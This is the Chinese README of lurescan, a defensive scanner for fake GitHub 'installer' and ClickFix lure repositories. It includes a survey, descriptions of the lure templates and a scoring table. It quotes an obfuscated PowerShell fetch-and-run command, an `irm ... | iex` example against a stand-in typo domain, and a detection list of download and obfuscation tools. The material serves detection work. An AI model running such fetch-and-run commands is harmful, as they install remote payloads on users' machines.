


# lurescan

**这周 GitHub 上 star 最多的新仓库，大部分是恶意诱饵。lurescan 在你运行任何东西之前告诉你哪些是。**

[English](README.md) · 简体中文



2026 年 11 月 23 日，我拉取了前一周 GitHub 上新建、star 最多的 398 个仓库。其中 373 个是恶意诱饵：
冒充 Adobe、Autodesk、FL Studio、MATLAB、Cellebrite、Claude 桌面版的假「安装页」，还有一个
「Blender MCP 服务器」。其中 372 个是同一天建的，两天后 star 数全部落在 334 到 368 之间。
star 最多的那个诱饵就是 Blender MCP，2746 个 star，瞄准的是找 AI 工具的人。

如果你（或者你的编程 Agent）靠 star 数挑仓库，挑选范围就是这些。

```bash
python3 lurescan.py owner/repo
```

单文件，Python 3.10+，只用标准库，需要 `git`。它把仓库以 bare + 浅克隆的方式拉到临时目录，读取文件名、
README、HTML 页面、workflow 文件和最近 60 个提交，然后删掉克隆。它不会检出工作区，也不会运行仓库里的
任何东西。



## 实测结果

| 数据集 | 仓库数 | LURE | SUSPICIOUS | 无已知特征 |
|---|---:|---:|---:|---:|
| 本周前 398 名里的诱饵 | 373 | 373 | 0 | 0 |
| 同一批诱饵，`--offline`（没有 star 和账号数据） | 373 | 372 | 1 | 0 |
| 同一前 398 名里的真实项目 | 21 | 0 | 0 | 21 |
| 对照组：特意挑选的、看起来像诱饵的真实仓库 | 161 | 0 | 0 | 161 |

另外 4 个是几天前刚发售游戏的「原生 PC 重编译」大仓库，我判断不了真假，两边都没算。

要说清楚这组数字的含义：规则是我看着这批诱饵写的，所以第一行是样本内结果。真正的检验是对照组。
我专门挑了会触发简单规则的仓库：要用管道接 shell 安装的工具（uv、bun、Scoop、winutil、Microsoft
Activation Scripts）、带下载按钮的 Windows 软件、只有 README 的仓库和闭源软件的 issue 仓库、每小时
自动提交的 git scraper、changesets 的随机单词文件名、staticrypt 加密页面，以及 2026 年 9–10 月
star 最多的 50 个仓库。开发过程中有 5 条规则误报了真实仓库，我逐条收窄了，详见
[英文 README](README.md#results)。

所有仓库、标注和判定结果都在 [`data/2026-11-23/`](data/2026-11-23/)。

## 三种模板

**ClickFix 页面（218 个，仓库名以 `-win` 结尾）。** README 介绍某个付费 Windows 软件，放一个大图片
按钮，链接到作者自己的 `github.io` 页面。那个页面伪装成 GitHub，让你按 Win+R、输入 `cmd`，再粘贴一条
已经放进你剪贴板的命令：`powershell -c "(irm '<url>')|&('i'+'e'+'x')"`。`('i'+'e'+'x')` 就是 `iex`，
拆开写是为了躲过对 `iex` 的文本搜索。通常 5 个提交，作者日期是倒着走的。没有代码。

**加密落地页 + 假提交（148 个）。** 同样的 README 按钮，但落地页把真实内容编码后拆进多个隐藏的
`<div>`，由脚本拼回来、解码、用密钥异或，再当作脚本注入页面，所以仓库里看不到任何可读内容。一个随机
命名的 workflow（如 `.github/workflows/RBerAZirJwdLsk.yml`）定时运行，往 `.github/` 里一个随机命名的
文件写东西，再用 `remove fix #9556` 这种编出来的提交信息提交，让仓库永远显示「一小时前更新」。

**诱饵代码（6 个）。** 打扮成项目的游戏外挂和解锁工具：一个 Colab notebook、一个配置文件，其中一半还有
26 行的 C++ 空壳和 `CMakeLists.txt`。README 的下载按钮指向 release 里的 `.zip`，workflow 每 6 小时
提交一次时间戳。

Blender MCP 那个是第四种更简单的形态：精致的 README、没有代码、下载链接指向 release 里的二进制文件。

## 检查项

| 检查项 | 分值 | 含义 |
|---|---:|---|
| `clickfix-page` | 5 | 页面让你按 Win+R 或 Win+X 粘贴一条它复制好的命令 |
| `obfuscated-command` | 5，有真实代码时 2 | 拆开拼接的 `iex`、反引号转义、反转字符串、base64 接 `iex` 或 shell、`-enc`、`mshta`、`certutil -urlcache`、`bitsadmin`、隐藏窗口 |
| `cloaked-page` | 5，有真实代码时 2 | 页面在浏览器里解码隐藏数据并注入成脚本（staticrypt 这类要密码的加密页不算） |
| `keepalive-commits` | 5，有真实代码时 2 | 定时任务用随机信息提交，或写入随机命名的文件 |
| `random-names` | 2 | `.github/` 下有随机字母命名的文件 |
| `setup-button` | 2 | 没有代码，README 的主按钮指向作者的 github.io 或其他站点 |
| `no-code-product` | 2 | README 推销一个 Windows 软件，但没有真实代码 |
| `binary-only` | 2 | 没有真实代码，README 的下载是 release 里的二进制 |
| `heartbeat-commits` | 2 | 没有真实代码，定时任务提交当前时间 |
| `piracy-pitch` | 2 | 破解、预激活、解锁或外挂软件 |
| `star-burst` | 2 | 创建不到 90 天、150+ star 且每天 40+、没有真实代码 |
| `backdated-history` | 1 | 提交日期早于它所基于的提交 |
| `fresh-owner` | 1 | 账号在仓库创建前 14 天内才注册 |

「没有真实代码」指没有源码文件，或最多 3 个文件且加起来不到 120 行。总分 5 及以上为 **LURE**，3–4 为
**SUSPICIOUS**，更低为 **no known lure signs**，这个结果永远不会写成「安全」。

`star-burst` 和 `fresh-owner` 需要 GitHub API（无 token 每小时 60 次，设置 `GITHUB_TOKEN` 可提高）。
其他检查都只用克隆下来的数据。

## 给编程 Agent 用

Agent 最容易中招：一个看 star 数的 Agent 会把这周 2746 star 的 Blender MCP 诱饵排在当周所有真实项目
前面。[`skills/lurescan/`](skills/lurescan/SKILL.md) 是一个 Agent Skill，要求 Agent 在从 GitHub
安装 MCP 服务器、skill、插件之前，在运行 README 里的安装命令之前，以及推荐搜索到的仓库之前，先检查一遍。

```bash
# Claude Code
cp -r skills/lurescan ~/.claude/skills/
# Codex 等读取 SKILL.md 的 Agent：把文件夹复制到对应的 skills 目录
```

## 参数

```text
python3 lurescan.py TARGET [TARGET ...]   owner/repo、github.com 链接或本地路径
  --list FILE    从文件读取更多目标，每行一个
  --json         每个目标输出一行 JSON
  --strict       SUSPICIOUS 也返回 1
  --offline      不查 GitHub API
  --depth N      读取的提交数（默认 60）
```

退出码：0 没有诱饵，1 至少一个诱饵，2 至少一个目标无法检查。

## 检测不到什么

- 藏在真实代码库里的恶意代码：被投毒的依赖、恶意 `postinstall`、大项目里的后门。lurescan 看的是仓库的
  「形状」，不读代码逻辑。
- 新模板。这些规则是本周活跃模板的指纹，对方换模板后需要补新的样本和检查。
- 指向仿冒域名的普通安装命令（`irm https://micros0ft.example | iex`），而仓库其他方面都正常。

## 相关工具

- [lure-check](https://github.com/Sanexxxx777/lure-check)：检查 README 里混淆的安装命令和一次性账号。它的
  README 说下载按钮类诱饵没有规则，因为样本在测量前就被删了。lurescan 主要就是为了补这个缺口。
- [RepoCanary](https://github.com/chriszemmel/repocanary)：检查假面试题仓库里安装时或打开文件夹时就会运行的代码。
- [StarScout](https://github.com/hehao98/StarScout)：大规模识别 GitHub 假 star。

## 如果已经运行了

先断网。用另一台设备修改重要密码并开启两步验证。在用这台电脑处理敏感事务之前，找 IT 部门或专业人士帮忙。

## 参与贡献

发现漏报的诱饵或被误报的真实仓库？开个 issue，写上仓库名即可。请不要贴恶意链接或命令。详见
[CONTRIBUTING.md](CONTRIBUTING.md)。

## 许可证

[MIT](LICENSE)
